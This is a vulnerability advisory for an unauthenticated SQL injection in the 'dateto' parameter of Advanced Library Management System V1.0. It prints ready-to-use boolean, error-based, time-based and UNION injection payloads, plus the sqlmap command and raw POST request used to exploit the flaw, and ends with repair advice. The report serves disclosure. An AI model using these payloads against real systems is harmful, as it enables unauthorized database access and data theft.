


# Advanced Library Management System V1.0 borrowed_book_search.php SQL injection

1. # NAME OF AFFECTED PRODUCT(S)

   - Advanced Library Management System

   ## Vendor Homepage

   - [Advanced Library Management System Project in PHP with Barcode | Projectworlds](https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/)

   # AFFECTED AND/OR FIXED VERSION(S)

   ## submitter

   - xxxxx

   ## VERSION(S)

   - V1.0

   ## Software Link

   - [Advanced Library Management System Project in PHP with Barcode | Projectworlds](https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/)

   # PROBLEM TYPE

   ## Vulnerability Type

   - SQL injection

   ## Root Cause

   - A SQL injection vulnerability was found in the 'borrowed_book_search.php' file of the 'Advanced Library Management System' project. The reason for this issue is that attackers inject malicious code from the parameter "dateto" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

   ## Impact

   - Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

   # DESCRIPTION

   - During the security review of "Advanced Library Management System", discovered a critical SQL injection vulnerability in the "borrowed_book_search.php" file. This vulnerability stems from insufficient user input validation of the 'dateto' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

   # No login or authorization is required to exploit this vulnerability

   # Vulnerability details and POC

   ## Vulnerability type:

   - time-based blind
   - boolean-based blind
   - error-based
   - UNION query
   
   ## Vulnerability location:
   
   - 'dateto' parameter
   
   ## Payload:
   
   ```
   Parameter: #1* ((custom) POST)
       Type: boolean-based blind
       Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
       Payload: datefrom=2024-01-01&dateto=2024-12-31' AND 8015=(SELECT (CASE WHEN (8015=8015) THEN 8015 ELSE (SELECT 9053 UNION SELECT 2956) END))-- -
       Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]
   
       Type: error-based
       Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
       Payload: datefrom=2024-01-01&dateto=2024-12-31' AND GTID_SUBSET(CONCAT(0x71767a6b71,(SELECT (ELT(7469=7469,1))),0x716b786271),7469)-- mxVe
       Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])
   
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: datefrom=2024-01-01&dateto=2024-12-31' AND (SELECT 9338 FROM (SELECT(SLEEP(5)))uLcd)-- sNRG
       Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
   
       Type: UNION query
       Title: Generic UNION query (NULL) - 34 columns
       Payload: datefrom=2024-01-01&dateto=2024-12-31' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a6b71,0x4e7243716f57504d615341444e4e464c7373414f636d48675154547173695769635946654b736d76,0x716b786271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
       Vector:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
   ```
   
   
   
   ## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
   
   ```
   python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
   //data.txt
   POST http://10.151.168.204:8822/borrowed_book_search.php HTTP/1.1
   Host: 10.151.168.204:8822
   Content-Length: 48
   Cache-Control: max-age=0
   Origin: http://10.151.168.204:8822
   Content-Type: application/x-www-form-urlencoded
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.168.204:8822/borrow.php
   Accept-Encoding: gzip, deflate, br
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=mvlvrc0vntapnir9lvu0knt0m8
   Connection: keep-alive
   
   datefrom=2024-01-01&dateto=2024-12-31*
   ```
   
   # Attack results
   
   
   
   # Suggested repair
   
   
   
   1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
   2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
   3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
   4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.